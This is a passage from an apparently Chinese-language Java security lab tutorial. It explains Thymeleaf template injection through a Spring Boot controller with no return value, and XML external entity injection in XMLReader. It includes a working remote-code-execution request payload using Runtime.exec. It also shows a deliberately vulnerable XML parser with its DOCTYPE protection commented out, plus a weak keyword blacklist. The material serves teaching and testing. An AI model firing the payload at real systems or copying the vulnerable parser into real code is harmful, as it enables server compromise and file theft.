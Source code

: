 ## no return

> 根据spring boot定义，如果controller无返回值，则以GetMapping的路由为视图名称。  
> 当然，对于每个http请求来讲，其实就是将请求的url作为视图名称，调用模板引擎去解析。  
> 在这种情况下，我们只要可以控制请求的controller的参数，一样可以造成RCE漏洞。

源码如下

```plain
@RequestMapping("/noreturn/{content}")
    public void noReturn(String content) {
        System.out.println("ok");
    }
```

poc：`GET /home/ssti/noreturn/__$%7BT(java.lang.Runtime).getRuntime().exec(%22calc%22)%7D__::.x HTTP/1.1`  
此时依旧会爆出模板文件无法找到的错误  
[![](assets/1705886531-3a5a4246ea8f80bab7ccbea226c3752f.png)](https://cdn.nlark.com/yuque/0/2023/png/21762749/1703579396956-b86ccd66-4a26-41be-9b27-2ac66c93a1ac.png#averageHue=%23e2e2e2&clientId=u5b490a61-0d9a-4&from=paste&height=70&id=ud029cd60&originHeight=105&originWidth=1123&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=28806&status=done&style=none&taskId=u34978d8a-dee5-472d-a369-a84130a4545&title=&width=748.6666666666666)

# XXE

## xmlreader

XML外部实体注入，当开发人员配置其XML解析功能允许外部实体引用时，攻击者可利用这一可引发安全问题的配置方式，实施任意文件读取、内网端口探测、命令执行、拒绝服务等攻击

```plain
public String XMLReader(@RequestBody String content, String entity) {
        try {
            if (entity !=null && entity.equals("true") && Security.checkXXE(content)) {
                return "检测到XXE攻击";
            }
            XMLReader xmlReader = XMLReaderFactory.createXMLReader();
            // 将功能 "http://apache.org/xml/features/disallow-doctype-decl" 设置为“真”时, 不允许使用 DOCTYPE。
            // xmlReader.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
            xmlReader.parse(new InputSource(new StringReader(content)));
            return "XMLReader 解析成功";
        } catch (Exception e) {
            return e.toString();
        }
```

```plain
public static boolean checkXXE(String content) {
        String black = "ENTITY";
        return content.toUpperCase().contains(black);
    }
```
